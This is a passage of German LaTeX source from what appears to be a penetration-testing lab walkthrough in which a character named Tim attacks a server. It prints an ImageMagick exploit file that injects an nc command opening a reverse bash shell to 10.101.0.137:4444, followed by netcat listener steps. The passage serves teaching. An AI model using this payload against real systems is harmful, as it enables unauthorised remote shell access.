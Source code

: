 \documentclass[10pt, a4paper,onecolumn ,titlepage]{article}
\begin{document}
    \vspace{0.4cm}
    \begin{lstlisting}[label={lst:imageMagickExploitFinal}]
        #Als .txt bearbeiten und in einem akzeptiertem Dateiformat
        #speichern
        #Lokale IP und Zielport tauschen
        push graphic-context
        viewbox 0 0 640 480
        fill 'url(https://example.com/image.jpg"|nc 10.101.0.137 4444 "-e/bin/bash '
        pop graphic-context
    \end{lstlisting}
    \vspace{0.3cm}

    \subsubsection{Verbindung mittels Reverse Shell herstellen und stabilisieren}
    \label{subsubsec:verbindungHerstellen}
    Im nächsten Schritt gilt es mittels dem in~\ref{subsubsec:imageMagickFinden} erstellten Exploit eine Verbindung zum Server herzustellen.
    Dazu muss Tim einen Netcat Listener erstellen, der den durch den Exploit angestoßenen Verbindungsversuch entgegennimmt.
    Das kann mittels des nc Befehls wie folgt erreicht werden: \textit{nc -lvnp zielIP zielport}.
    Wird nun der Exploit als Profilbild gespeichert,
    \begin{figure}[H]
        \centering
        \includegraphics[width=1\textwidth]{storyline_bilder_vm2/VerbindungDa}
        \caption{Der Exploit wird als Profilbild gespeichert und ein Netcat Lister nimmt den Verbindungsversuch des Servers auf Port 444 entgegen.}
        \label{fig:exploitHochladen}
    \end{figure}
    \noindent
    Nach, dem die Verbindung erfolgreich etabliert ist, kommt schon das nächste Problem auf Tim zu.
    Die Bash Shell ist zu instabil um damit fortzufahren.
    Um die Shell zu stabilisieren, beschreibt ~\textcite{shellStabilisieren} folgendes Vorgehen:
\end{document}
